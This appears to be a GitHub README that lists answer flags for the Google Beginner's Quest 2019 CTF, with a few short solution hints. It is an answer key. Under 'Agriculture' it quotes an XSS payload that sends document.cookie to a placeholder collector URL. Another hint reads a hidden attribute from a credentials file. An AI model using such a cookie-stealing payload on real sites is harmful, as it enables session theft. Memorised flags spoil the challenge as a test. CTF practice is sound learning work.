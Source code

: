 <h2>These are the flags from Google Beginner's Quest 2019 competition. </h2>

### 1. Space-Time coordinates
`CTF{welcome_to_googlectf}`

### 2. Satellite
`CTF{4efcc72090af28fd33a2118985541f92e793477f}`

### 3. Home
>cmd:- <p >getfattr --only-values -n user.FILE0 credentials.txt > output

`CTF{congratsyoufoundmycreds}`

### 4. Work Computer challenge
`fold` command

CTF{4ll_D474_5h4ll_B3_Fr33}                   


### 5. Agriculture
>cmd:- <p> <script>document.location='REQUESTBIN_LINK'+document.cookie</script>

`CTF{8aaa2f34b392b415601804c2f5f0f24e}`


### 6. Stop GAN
`CTF{Why_does_cauliflower_threaten_us}`


### 7* FriendSpaceBook
>  http://emoji-t0anaxnr3nacpt4na.web.ctfcompetition.com/humans_and_cauliflowers_network/ 

`CTF{Peace_from_Cauli!}`


### 8* Drive to the target

`CTF{Who_is_Tardis_Ormandy}`		         


### Extras:-
`Ad:- CTF{9e796ca74932912c216a1cd00c25c84fae00e139}`



<img src="Screenshot from 2019-06-25 16-23-32.png">









